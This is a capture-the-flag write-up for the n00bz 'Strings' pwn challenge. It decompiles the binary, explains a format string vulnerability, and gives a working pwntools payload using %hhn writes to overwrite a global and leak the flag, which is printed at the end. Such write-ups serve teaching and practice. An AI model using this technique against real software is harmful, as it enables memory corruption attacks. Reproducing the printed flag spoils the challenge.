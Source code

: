 # **Strings**
TL;DR 2 in 1 format string vulnerability

# Executable
Checksec :
```
[*] '/home/skuuk/n00bz/strings'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Ghidra decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void main2(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

# Vulnerability
The vulnerability is a textbook format string, with no escaping of user input : 
```C
fgets(local_78,100,stdin);
printf(local_78);
```
There are many possibilities from there.

I decided to overwrite `fake_flag`, since it's in writeable memory and its address is known (no PIE), so as to print `local_38` which contains the actual flag.

This is achieved by overwriting bytes of `fake_flag` with a `%s` format specifier: as can be seen in gdb, when calling `printf(fake_flag)`, `rsi` holds the true flag !

# Exploit
```python
io = start()
io.sendline(b"%37c%9$hhn%78c%10$hhnPPP" + p64(0x404060) + p64(0x404061))
io.interactive()
```
Essentially we craft our payload to write a number of characters corresponding to `%` and to `s`, and so that these counts are stored in fake_flag (which is at address `0x404060`)
- The buffer holding our input can be found on the stack. 
- It corresponds to the 6th (starting from 0) argument sent to printf (you can figure this out by experimenting with format specifiers or in gdb)
- `PPP` is used to align our payload
- The adresses at the end of the payload are arguments 9 and 10
- prefixing a format specifier by `X$`, where `X` is a number, allows to specify the `X`th argument is used by the current format specifier
- The `n` format specifier writes to the location pointed by the current argument the number of bytes printed until now by the current `printf` as an int (4 bytes)
- With `hhn`, we write the number of bytes printed until now by the current `printf` as a single byte
- `Xc` where `X` is a number, writes `X` times the current argument as a char.

# Resources
I looked at the following article as a refresher on format strings attacks:
https://ir0nstone.gitbook.io/notes/types/stack/format-string

For more info about format specifiers, look at the man page of printf :
```
$ man 3 printf
```


# Flag
```
n00bz{f0rm4t_5tr1ng5_4r3_th3_b3s7!!!!!}
```
